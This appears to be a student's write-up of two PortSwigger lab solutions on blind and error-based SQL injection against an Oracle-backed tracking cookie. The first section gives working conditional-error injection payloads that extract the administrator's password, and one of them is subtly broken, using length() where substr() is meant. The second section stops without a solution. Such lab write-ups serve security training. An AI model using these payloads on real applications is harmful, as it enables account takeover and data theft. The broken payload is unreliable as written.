


# Error-based SQL injection

## Lab's decsription

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:** log in as the `administrator` user.

We have hint: `This lab uses an Oracle database.`

Oracle's syntax: [SQL Cheatsheat](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

Here is my cookie: `ZDhTYBxTuioKS1t5`. 

Send this to Repeater. 

Now we gonna see if the username `administrator` exits or not.

`ZDhTYBxTuioKS1t5'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'`

Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`ZDhTYBxTuioKS1t5'||(select case when (length(password) > 1) then to_char(1/0) else '' end from users where username='administrator')||'`

We can see the length is different, because it does not respond the `Error` message.

After that, we will discover character-by-character for the password.

`ZDhTYBxTuioKS1t5'||(select case when (length(password,1,1) = a) then to_char(1/0) else '' end from users where username='administrator')||'`

After an hour, I got this:

`Username: administrator`

`Password:x555lejj395mk0k98nja`

**Source:** [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors#)

---

# Visible error-based SQL injection

## Lab's decsription

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password.

**End goal:** log in as the `administrator` user.

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

Here is my cookie: `b2enCQjhRAqpl6Zl`.

**Source:** [Lab: Visible error-based SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based#)
